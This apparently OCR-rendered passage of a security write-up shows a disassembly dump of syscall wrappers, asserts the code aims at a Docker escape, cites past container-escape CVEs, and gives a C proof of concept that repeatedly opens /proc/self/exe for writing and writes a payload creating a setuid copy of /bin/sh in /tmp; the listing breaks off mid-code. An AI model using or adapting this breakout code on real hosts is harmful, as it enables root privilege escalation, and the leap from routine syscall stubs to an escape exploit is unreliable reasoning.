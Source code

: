    0x77bf0112a090:	endbr64
   0x77bf0112a094:	mov    eax,0x122
   0x77bf0112a099:	syscall
   0x77bf0112a09b:	cmp    rax,0xfffffffffffff001
   0x77bf0112a0a1:	jae    0x77bf0112a0a4
   0x77bf0112a0a3:	ret
   0x77bf0112a0a4:	mov    rcx,QWORD PTR [rip+0xd8d4d]        # 0x77bf01202df8
   0x77bf0112a0ab:	neg    eax
   0x77bf0112a0ad:	mov    DWORD PTR fs:[rcx],eax
   0x77bf0112a0b0:	or     rax,0xffffffffffffffff
   0x77bf0112a0b4:	ret
   0x77bf0112a0b5:	cs nop WORD PTR [rax+rax*1+0x0]
   0x77bf0112a0bf:	nop
   0x77bf0112a0c0:	endbr64
   0x77bf0112a0c4:	push   rbp
   0x77bf0112a0c5:	mov    edx,0x8
   0x77bf0112a0ca:	mov    rbp,rsp
   0x77bf0112a0cd:	call   0x77bf0111ba50
</pre>



---

## 5. Exploitation Goal: Docker Escape

Given that the shellcode uses raw syscalls, thread state tracking, memory layout control, and infinite loops — this appears designed to escape container boundaries, particularly Docker.

Examples of prior container escapes using similar behavior:

* CVE-2019-5736: Overwriting `/proc/self/exe` in runc
* CVE-2023-0386: OverlayFS write confusion
* CVE-2022-0492: Cgroup BPF bypass

---

## Minimal Docker Breakout PoC

Here’s a **hypothetical PoC** in C that mimics the behavior of retrying syscalls in a loop to exploit a TOCTOU condition, such as a writable `/proc/self/exe` scenario:

```c
#define _GNU_SOURCE
#include <fcntl.h>
#include <stdio.h>
#include <string.h>
#include <unistd.h>
#include <sys/syscall.h>
#include <errno.h>

int main() {
    const char *payload = "#!/bin/bash\ncp /bin/sh /tmp/rootsh && chmod +s /tmp/rootsh\n";
    int fd;

    while (1) {
        fd = syscall(SYS_open, "/proc/self/exe", O_WRONLY | O_TRUNC);
        if (fd >= 0) break;
        if (errno != EBUSY && errno != EAGAIN) {
            perror("syscall open");
            return 1;
        }
    }

    write(fd, payload, strlen(payload));
    close(fd);
```